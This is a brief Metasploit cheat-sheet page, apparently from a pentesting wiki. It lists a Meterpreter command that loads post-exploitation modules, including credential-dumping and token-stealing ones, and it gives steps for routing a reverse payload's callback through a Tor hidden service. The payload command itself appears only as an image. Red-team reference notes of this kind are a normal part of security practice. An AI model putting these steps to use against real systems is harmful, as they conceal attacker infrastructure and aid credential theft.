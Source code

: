 ## <mark style="color:red;">Load All Post Modules</mark>

```
load espia extapi incognito kiwi lanattacks peinjector powershell priv python sniffer stdi unhook winpmem
```

## <mark style="color:red;">Pivoting & Forwarding</mark>

#### see [Metasploit pivoting ](broken-reference)section.

## <mark style="color:red;">Route Traffic over Tor</mark>

```
apt install tor
```

edit tor config `/etc/tor/torrc` uncomment following lines:

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 10.17.0.5:9999
```

change the hiddenserviceport ip address from 127.0.0.1 to your private ip and local port 80 to 9999

```
service tor start 
or
tor
```

find your tor hidden service hostname

```
cat /var/lib/tor/hidden_service/hostname
```

![](<../.gitbook/assets/image (289) (1).png>)

create a payload with msfvenom and set the `lhost` to the union address and append .link to it:

![](<../.gitbook/assets/image (272) (1) (1).png>)
